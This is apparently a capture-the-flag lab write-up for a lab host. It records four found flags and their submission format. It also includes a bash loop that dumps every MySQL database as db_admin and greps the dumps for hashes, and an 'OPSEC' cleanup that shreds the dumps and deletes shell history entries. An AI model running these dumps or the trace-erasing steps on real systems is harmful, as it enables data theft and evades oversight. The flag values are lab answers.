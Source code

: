 - Lightweight dump+grep when safe:
    

```bash
mkdir -p /tmp/mysql_dumps
for db in $(mysql -h 192.96.75.3 -u db_admin -p -N -e 'SHOW DATABASES;' | egrep -v '^(mysql|information_schema|performance_schema|sys)$'); do
  mysqldump -h 192.96.75.3 -u db_admin -p --skip-lock-tables --no-create-info "$db" > /tmp/mysql_dumps/$db.sql
done
egrep -o '[a-f0-9]{32}' /tmp/mysql_dumps/*.sql | sort -u
```

---

## Findings (recorded from session)

- **Flag 1** found in HTTP server header: `FLAG1_b9e2f9d05fea4d338af0e8b4d58728d9` (server header). Source: `nmap` HTTP fingerprint / curl.
    
- **Flag 2** (gatekeeper) was available at `/secret-info/flag.txt` via HTTP. Use `curl` to fetch and extract the MD5.
    
- **Flag 3**: anonymous FTP accessible. Files present at `/` include `flag.txt` and `creds.txt`. Download and grep them for MD5 tokens.
    
- **Flag 4** found as a database name: `FLAG4_2408b1f245ba4edcad1837bff1679109` and the DB named `2408b1f245ba4edcad1837bff1679109`. Source: `mysql SHOW DATABASES;` as `db_admin`.
    

---

## Minimal proofs to collect/submission format

- Submit only the raw 32-hex MD5 string (no leading `FLAGx_`). Example: `b9e2f9d05fea4d338af0e8b4d58728d9`.
    
- Keep a screenshot or saved file showing the command output that produced the flag (curl/http headers, ftp get output, or `SHOW DATABASES;`).
    

---

## Cleanup and OPSEC

- Remove temp files and dumps when finished:
    

```bash
shred -u /tmp/dbs.txt /tmp/mysql_dumps/*.sql /tmp/ftp_dump/* || rm -f /tmp/dbs.txt /tmp/mysql_dumps/*.sql /tmp/ftp_dump/*
```

- Clear shell history entries that contain sensitive commands (note: only your local shell):
    

```bash
history | tail -n 50
# note line N then
history -d N
history -w
```
